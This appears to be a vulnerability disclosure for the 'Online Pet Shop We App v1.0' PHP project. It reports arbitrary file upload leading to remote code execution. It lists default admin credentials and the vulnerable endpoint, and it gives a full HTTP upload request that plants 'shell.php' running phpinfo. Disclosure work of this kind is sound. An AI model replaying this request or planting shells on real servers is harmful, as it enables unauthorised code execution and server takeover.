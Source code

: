 # Online Pet Shop We App v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: z1pwn

Admind login account: admin/admin123

vendor: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

Vulnerability url: http://ip/pet_shop/classes/Master.php?f=save_product

Loophole location：There is an arbitrary file upload vulnerability (RCE) in the picture upload point of the editing function of the product list module in the background management system

Request package for file upload：

```sql
POST /pet_shop/classes/Master.php?f=save_product HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/pet_shop/admin/?page=product/manage_product&id=6
Content-Length: 2685
Content-Type: multipart/form-data; boundary=---------------------------162223033527413
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close

-----------------------------162223033527413
Content-Disposition: form-data; name="id"

6
-----------------------------162223033527413
Content-Disposition: form-data; name="category_id"

4
-----------------------------162223033527413
Content-Disposition: form-data; name="sub_category_id"

4
-----------------------------162223033527413
Content-Disposition: form-data; name="product_name"

Dog Belt
-----------------------------162223033527413
Content-Disposition: form-data; name="description"

<p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas dui nulla, tincidunt in arcu at, vulputate volutpat velit. Quisque volutpat gravida erat, gravida porttitor magna malesuada sed. Curabitur massa est, ullamcorper a diam vitae, tincidunt sagittis justo. Nam eu orci ligula. Duis ullamcorper dui at nisi consequat, sed suscipit sapien lacinia. Praesent ut lacus id arcu bibendum egestas. Cras ullamcorper dictum mi, non commodo mauris iaculis a. Pellentesque porta sem id dapibus tincidunt. Aenean metus tellus, efficitur ut feugiat in, euismod et arcu. In pharetra, dolor in fermentum facilisis, metus urna lacinia metus, in maximus justo tellus et tortor. Nam pulvinar eu enim auctor pellentesque.</p><p style="margin-right: 0px; margin-bottom: 15px; margin-left: 0px; padding: 0px;">Nam ut quam velit. Suspendisse commodo non urna nec dictum. Pellentesque eget enim id velit bibendum auctor vel id lectus. Maecenas dolor nibh, ultricies eget metus vel, efficitur varius tellus. Donec semper eros sit amet urna bibendum scelerisque. Interdum et malesuada fames ac ante ipsum primis in faucibus. Integer cursus est in sapien sodales, quis pulvinar nisl aliquet. Pellentesque blandit diam lobortis pulvinar ornare. Sed venenatis imperdiet massa, ut mollis sapien sagittis a. Nulla dignissim ultrices metus a mattis. Nunc egestas mattis nisl at posuere. Donec malesuada ut justo sed aliquam. Sed venenatis sit amet tortor et semper. Class aptent taciti sociosqu ad litora torquent per conubia nostra, per inceptos himenaeos. Vivamus sit amet massa at massa malesuada volutpat quis nec libero.</p>
-----------------------------162223033527413
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------162223033527413
Content-Disposition: form-data; name="status"

1
-----------------------------162223033527413
Content-Disposition: form-data; name="img[]"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------162223033527413--
```

The files will be uploaded to this directory \pet_shop\uploads\product_6
![image](https://user-images.githubusercontent.com/54017627/185289578-eafb55c4-282e-4a3b-9201-3df076710a7c.png)


We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/185289496-bade6640-f6b4-4822-8160-0ff82cf06579.png)
